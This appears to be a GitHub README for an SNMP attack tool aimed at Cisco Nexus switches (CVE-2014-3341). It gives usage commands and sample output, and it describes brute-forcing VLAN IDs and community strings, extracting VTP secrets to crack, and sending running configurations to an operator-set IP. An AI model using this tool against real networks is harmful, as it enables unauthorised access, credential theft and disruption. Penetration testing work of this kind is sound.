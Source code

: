 snmpvlan
========
CVE ID: CVE-2014-3341.

Cisco Bug ID: CSCup85616.

NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family). 

There are many snmp scanners and brute forcers this was made for just completeness.It has the following features: 

*Finds Nexus switches specifically since they seem to reply to bogus community strings 

*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests) 

*Bruteforces snmp community strings To find the following: **System uptime **Configured networks (leverage more ground) 

  **Files and folders 

  **VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else) 

  **Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something. 

TODO: 

*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch 

*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+) 

*Show logged in users 

*Disable snmp traps 

*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests). 

*Use getopt ….. 

*Router reload over snmp just for evilness. 

*Anything else I forgot.

$ python NexusTaco.py python NexusTaco.py CIDR 

$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100 

Thanks nmap for the ip list 

Finding vulnerable switches 

x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on: x.x.x.x With incorrect community string

Host: x.x.x.x has VlanID 1 Configured 

Host: x.x.x.x has VlanID 2 Configured 

Host: x.x.x.x has VlanID 3 Configured 

Host: x.x.x.x has VlanID 4 Configured 

Host: x.x.x.x has VlanID 5 Configured 

Host: x.x.x.x has VlanID 6 Configured 

Host: x.x.x.x has VlanID 7 Configured 

Host: x.x.x.x has VlanID 8 Configured 

Host: x.x.x.x has VlanID 10 Configured 

Host: x.x.x.x has VlanID 31 Configured 

Host: x.x.x.x has VlanID 32 Configured 

Host: x.x.x.x has VlanID 33 Configured 

Host: x.x.x.x has VlanID 34 Configured 

Host: x.x.x.x has VlanID 35 Configured 

Host: x.x.x.x has VlanID 40 Configured 

Host: x.x.x.x has VlanID 64 Configured 

Host: x.x.x.x has VlanID 65 Configured 

Host: x.x.x.x has VlanID 97 Configured 

Host: x.x.x.x has VlanID 98 Configured 

Host: x.x.x.x has VlanID 99 Configured 

Host: x.x.x.x has VlanID 100 Configured

.....
